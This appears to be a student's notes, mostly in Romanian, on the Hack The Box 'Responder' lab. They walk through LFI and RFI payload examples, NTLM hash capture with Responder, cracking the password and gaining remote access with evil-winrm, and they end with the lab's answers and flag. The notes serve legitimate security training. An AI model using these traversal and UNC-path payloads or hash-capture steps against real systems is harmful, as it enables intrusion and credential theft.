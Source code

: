 1. When visiting the web service using the IP address, what is the domain that we are being redirected to?
To ce avem nevoie casa dam raspuns la intrebarea date este sa acesam [[IP]] adresa.
`http://unika.htb/` vedem ca am fost redictionati la adresa 
![[Pasted image 20230904235556.png]]
Ca sa putem acesa resursul nostru aven nevoie sa modificam un pic fisierul `hosts` in felul urmator.
![[Pasted image 20230905074213.png]]
Aceasta inseamna ca facem o asociere locala pentru [[IP]] si [[DNS]].
2. Which scripting language is being used on the server to generate webpages?
In acesta caz putem afla cu ajutorul la mai multe instrumente care este limbajul eu am folosit 2 [[whatweb]], [[wappalyzer]]. 
![[Pasted image 20230905075135.png]]
Putem vedea ca limbajul este [[PHP]] 
![[Pasted image 20230905075231.png]]
Raspunsul la intrebare `PHP`
3. What is the name of the URL parameter which is used to load different language versions of the webpage?
![[Pasted image 20230905075437.png]]
Raspunsul este `page`
4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
Raspunsul este `../../../../../../../../windows/system32/drivers/etc/hosts` 
5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
Raspunsul este `//10.10.14.6/somefile`
6. What does NTLM stand for?
Raspunsul este `New Tehnology LAN Manager`
![[Pasted image 20230905080941.png]]
7. Which flag do we use in the Responder utility to specify the network interface?
In practica mea eu nu mam folosit nici o data de instrumentul [[responder]].
![[Pasted image 20230905081237.png]]
Raspunsul este `-I`
Pentru a captura [[NTLM]] rulam [[responder]] cu optiounea de -I pe interfata unde este masina care trebuie atacata. Si cu un [[RFI]] putem sa facem o cerere care ne va permite sa capturam hasul pentru administrator.
![[Pasted image 20230905085139.png]]
![[Screenshot_20230905_085417.png]]
8. What is the password for the administrator user?
Cu ajutorul la [[john]] putem gasi parola dar nu am inteles de ce nu merge cand specific parametrul `--format=netntlm`
![[Pasted image 20230905090248.png]]
Raspunsul este `badminton`
9. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
![[Pasted image 20230905090855.png]]
Am aflat ca avem 2 porturi deschise.
Dar la intrebarea avem nevoie de portul `5985`
10. Flag.
Avem nevoie sa facem conexiunea cu hostul nostru am crezut ca va fii posibil cu [[rwinrm]] dar nu am putut face o conexiune stabila chear de loc nu mam putut conecta.
Am deschis Write-UP-ul si am vazut ca se foloseste instrumentul [[evil-winrm]]
```bash
evil-winrm -i <IP> -u <user> -p <password>
```
Ca sa gasim unde este localizat flagul folosim comanda:
```Power-Shell
Get-ChildItem -Path "C:\" -Filter "flag.txt" -Recurse
```
![[Pasted image 20230905095301.png]]
Am gasit flagul acum sa vedem ce este in el:
```Power-Shell
Get-Content C:\Users\mike\Desktop\flag.txt
```
![[Pasted image 20230905095355.png]]
Flagul este `ea81b7afddd03efaa0945333ed147fac`

